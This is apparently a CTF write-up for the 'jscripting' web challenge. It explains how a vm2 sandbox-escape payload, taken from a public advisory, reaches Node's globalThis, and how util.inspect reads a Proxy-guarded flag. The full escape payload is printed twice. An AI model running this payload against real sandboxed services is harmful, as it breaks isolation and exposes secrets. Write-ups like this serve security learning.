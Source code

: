 # jscripting

tl;dr: use `util.inspect` to see protected attributes of `Proxy` object

## problem

see [web_jscripting.7z](./web_jscripting.7z)

## solution

![image](https://github.com/quasar098/ctf-writeups/assets/70716985/7ba47fbb-7e60-43cb-bc55-6680c6c641bb)

on the backend, we execute our code in a node js `vm`

![image](https://github.com/quasar098/ctf-writeups/assets/70716985/eb02281e-9ad5-4bdf-9a96-7c494fa99836)

i got a payload from @oh_word on the cyberspace team, and he got it from [https://security.snyk.io/vuln/SNYK-JS-VM2-5537100](https://security.snyk.io/vuln/SNYK-JS-VM2-5537100)

example payload to get access to `globalThis`
```js
(() => {const err = new Error();err.name = {toString: new Proxy(() => "", {apply(target, thiz, args) {const process = args.constructor.constructor("return globalThis")();throw process;},}),};try{err.stack;}catch(e){
  return e;  // this is where the magic happens (what is returned here we can see)
}})()
```

this allows us to escape the vm and get access to the `globalThis` object in the worker_globals.js file (shown below)

```js
globalThis.module = module;

const secret = process.env["SECRET"];
const flag = process.env["FLAG"];

globalThis.storage = new Proxy({ secret },
{
    get: (target, name) => {
        if (name == "secret") {
            return null;
        }

        return target[name];
    },

    getOwnPropertyDescriptor: (target, name) => {
        if (name == "secret") {
            return {
                value: flag,
                writable: true,
                enumerable: true,
                configurable: true,
            };
        }

        return target[name];
    }
});
```

the `globalThis` object is also modified in worker.js (modified in worker.js before the vm executes our payload)

```js
const moduleRequire = globalThis.module.require;
globalThis.module.require = (id) => {
    const whitelist = [
        "crypto",
        "path",
        "buffer",
        "util",
        "worker_threads",
        "stream",
        "string_decoder",
        "console",
        "perf_hooks"
    ];

    if (!whitelist.some(p => id == p))
        return;
    
    return moduleRequire(id);
}
```

as you can see, the globalThis has a storage which has the `flag` (fake flag!!!) and a `secret`. the secret is the real flag, but we cant view it because it is hidden behind a proxy object

one idea i had was to do `new globalThis.module.require('buffer').allocUnsafe(2000)` (similar to [here](https://snyk.io/blog/exploiting-buffer/)) to leak memory, but this did not leak anything useful

we have access to the `util`, which is very interesting.

interestingly, we have `util.inspect` (see [here](https://nodejs.org/docs/latest/api/util.html#utilinspectobject-options))

![image](https://github.com/quasar098/ctf-writeups/assets/70716985/791ba068-93eb-4c33-a701-c8147d29e06a)

putting this into our payload template to try to inspect storage:
```js
(() => {const err = new Error();err.name = {toString: new Proxy(() => "", {apply(target, thiz, args) {const process = args.constructor.constructor("return globalThis")();throw process;},}),};try{err.stack;}catch(e){
  return e.module.require('util').inspect(e.storage);
}})()
```

![image](https://github.com/quasar098/ctf-writeups/assets/70716985/7398397e-68c5-41f1-8f5d-30c0814dd454)

what !?

well, there is a check to not print out flags

![image](https://github.com/quasar098/ctf-writeups/assets/70716985/0cef9ce6-1002-4db3-86a4-166186d03dc3)

so i can just convert this to a list by doing `[...str]` to make it `['c','r','3','{', etc, '}']`

![image](https://github.com/quasar098/ctf-writeups/assets/70716985/d4e3f02f-58da-499b-ad84-0d6cc0972de7)

this outputted the flag
